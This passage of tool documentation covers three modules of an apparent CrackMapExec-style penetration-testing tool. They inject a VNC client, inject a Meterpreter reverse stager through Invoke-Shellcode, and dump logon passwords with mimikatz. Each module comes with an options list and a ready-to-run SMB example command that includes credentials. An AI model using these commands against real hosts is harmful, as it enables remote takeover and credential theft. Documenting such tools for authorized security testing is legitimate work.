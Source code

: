 Injects a VNC client in memory

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```
    CONTYPE   Specifies the VNC connection type, choices are: reverse, bind (default: reverse).
    PORT      VNC Port (default: 5900)
    PASSWORD  Specifies the connection password.
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M invoke_vnc
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## met_inject                
Downloads the Meterpreter stager and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true  

**Options:**
```
    LHOST    IP hosting the handler
    LPORT    Handler port
    PAYLOAD  Payload to inject: reverse_http or reverse_https (default: reverse_https)
    PROCID   Process ID to inject into (default: current powershell process)
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M met_inject
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## mimikatz                  
Its mimikatz... 

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true  

**Options:**
```
    COMMAND  Mimikatz command to execute (default: 'sekurlsa::logonpasswords')
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M mimikatz
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------